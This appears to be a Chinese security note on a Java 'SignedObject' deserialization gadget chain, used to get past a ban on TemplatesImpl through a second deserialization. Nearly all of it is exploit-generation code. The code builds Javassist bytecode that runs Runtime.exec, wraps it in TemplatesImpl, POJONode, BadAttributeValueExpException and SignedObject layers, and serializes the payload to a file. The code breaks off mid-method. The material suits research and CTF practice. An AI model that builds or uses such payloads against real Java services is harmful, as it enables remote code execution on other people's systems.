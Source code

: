 
### SignObject 链

在 Templates 被 ban 的情况下 打二次反序列化

```bash
package tongsha;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;


import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URI;
import java.security.*;
import java.util.Base64;

public class SignObjectChain {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templatesImpl, "_name", "fakes0u1");
        setFieldValue(templatesImpl, "_tfactory", null);
        POJONode jsonNodes2 = new POJONode(templatesImpl);
        BadAttributeValueExpException exp2 = new BadAttributeValueExpException(null);
        Field val2 = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val2.setAccessible(true);
        val2.set(exp2,jsonNodes2);
        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");
        SignedObject signedObject = new SignedObject(exp2,privateKey,signingEngine);
        POJONode jsonNodes = new POJONode(signedObject);
        BadAttributeValueExpException exp = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
        objectOutputStream.writeObject(exp);
        FileOutputStream fout=new FileOutputStream("1.ser");
        fout.write(barr.toByteArray());
        fout.close();
        FileInputStream fileInputStream = new FileInputStream("1.ser");
        System.out.println(serial(exp));
```